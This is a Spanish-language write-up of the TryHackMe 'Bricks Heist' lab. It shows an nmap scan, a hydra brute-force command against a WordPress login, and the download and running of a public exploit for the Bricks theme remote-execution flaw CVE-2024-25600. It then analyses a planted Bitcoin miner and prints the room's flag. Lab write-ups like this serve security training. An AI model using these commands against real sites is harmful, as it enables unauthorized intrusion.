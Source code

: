 ```yaml
---
title: "Bricks Heist"
platform: "THM"
publishedAt: 2025-05-12
cover: "/images/ctf/bricksheist-cover.webp"
preview: "TryHackMe – Bricks Heist | Write-up técnico"
tags: [Hydra, WordPress, OSINT]
link: "https://tryhackme.com/room/tryhack3mbricksheist"
toc:
  - text: "🕵️ Introducción"
    id: "introduccion"
  - text: "📅 Fecha:  May-12-2025"
    id: "fecha-may-12-2025"
  - text: "🛠️  Herramientas utilizadas"
    id: "herramientas-utilizadas"
  - text: "🔍 1. Reconocimiento"
    id: "1-reconocimiento"
  - text: "🔢 2. Enumeración de servicios"
    id: "2-enumeracion-de-servicios"
  - text: "🔎 3. Análisis e  investigación"
    id: "3-analisis-e-investigacion"
  - text: "💣 4. Acceso inicial o administrativo"
    id: "4-acceso-inicial-o-administrativo"
  - text: "🔓 5. Explotación"
    id: "5-explotacion"
  - text: "🐚 6. Post-explotación"
    id: "6-post-explotacion"
  - text: "🔍 7. Proceso y servicio sospechoso"
    id: "7-proceso-y-servicio-sospechoso"
  - text: "📁 Análisis del miner"
    id: "analisis-del-miner"
  - text: "🔓 Decodificación de wallet"
    id: "decodificacion-de-wallet"
  - text: "🕵️‍♂️ 8. Asociación con grupo de amenazas"
    id: "8-asociacion-con-grupo-de-amenazas"
  - text: "🧠 9. IOCs (Indicators of Compromise)"
    id: "9-iocs-indicators-of-compromise"
  - text: "📝 10. Conclusión"
    id: "10-conclusion"
---
```


---


#                                🧱 TryHackMe – Bricks Heist


## 🕵️ Introducción


En este reto de TryHackMe nos enfrentamos a un escenario en el que un sitio WordPress ha sido comprometido por un actor malicioso. Nuestra misión es investigar, identificar cómo se produjo el ataque, qué malware fue desplegado y qué grupo está detrás.


## 📅 Fecha:  May-12-2025


## 🛠️  Herramientas utilizadas

<details>
<summary>Hydra</summary>
- Hydra
- Python

</details>


[link_preview](https://github.com/Chocapikk/CVE-2024-25600)


> 💡 [https://github.com/Chocapikk/CVE-2024-25600](https://github.com/Chocapikk/CVE-2024-25600)


```plain text
https://github.com/Chocapikk/CVE-2024-25600
```


## 🔍 1. Reconocimiento


```shell
Comenzamos con un escaneo completo:
nmap -sCV -p- 10.10.72.226
```


### Puertos abiertos

- 22
- 80
- 443
- 3306

---


## 🔢 2. Enumeración de servicios

- **22/tcp** – OpenSSH
- **80/tcp** – WebSockify (retorna error 405)
- **443/tcp** – Apache + WordPress 6.5
- **3306/tcp** – MySQL (sin autenticación)

---


## 🔎 3. Análisis e  investigación  


###  Enumeración de WordPress


Usando `curl` y `wpscan`, identificamos que el tema activo es **Bricks**.


Al buscar vulnerabilidades conocidas, encontramos el CVE:

- **CVE-2024-25600**: vulnerabilidad crítica que permite ejecución remota de comandos desde el editor del tema Bricks.

## 💣 4. Acceso inicial o administrativo


Tras enumerar el usuario `administrator`, ejecutamos fuerza bruta con `hydra` y obtenemos acceso:


```shell
hydra -l administrator -P rockyou.txt https://bricks.thm -s 443 -S -f \
http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=Location: /wp-admin/"
```


## 🔓 5. Explotación


Usamos el exploit público para el CVE-2024-25600:


```shell
wget https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/main/CVE-2024-25600.py
```


---


Al ejecutarlo con credenciales válidas, logramos ejecutar comandos remotos y abrir una **shell interactiva**:


```shell
python3 CVE-2024-25600.py --url https://bricks.thm --username administrator --password ***** --cmd id
```


## 🐚 6. Post-explotación


### 
Accedemos a `/var/www/html/` y encontramos la flag inicial:


```plain text
THM{fl46_650c844110baced87e1606453b93f22a}
```


---


## 🔍 7. Proceso y servicio sospechoso


Revisamos los procesos activos y servicios del sistema, encontrando uno sospechoso:


```shell
ubuntu.service - TRYHACK3M
ExecStart=/lib/NetworkManager/nm-inet-dialog
```


---


El proceso asociado es: `nm-inet-dialog`.


---


## 📁 Análisis del miner


Identificamos el archivo de log del minero en:


```shell
/lib/NetworkManager/inet.conf
```


Este archivo contiene líneas como:


```plain text
[*] Bitcoin Miner Thread Started
```


Y una clave codificada como:


```plain text
ID: WW1NeGNY...
```


## 🔓 Decodificación de wallet


Decodificando el valor de `ID` en base64 (tres veces), obtenemos:


```plain text
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```


Una dirección de Bitcoin válida (Bech32) usada para recibir ganancias del minero.


## 🕵️‍♂️ 8. Asociación con grupo de amenazas



Rastreando la dirección en fuentes OSINT, encontramos que ha sido usada en transacciones ligadas al grupo de ransomware **LockBit**.




---


## 🧠 9. IOCs (Indicators of Compromise)


IPs, hashes, URLs, etc.


## 📝 10. Conclusión


Este reto combina:

- Enumeración de WordPress
- Explotación real de CVE
- Escalada post-explotación
- Análisis forense y OSINT

![Bricks_Heist.png](/images/ctf/BricksHeist-0.webp)


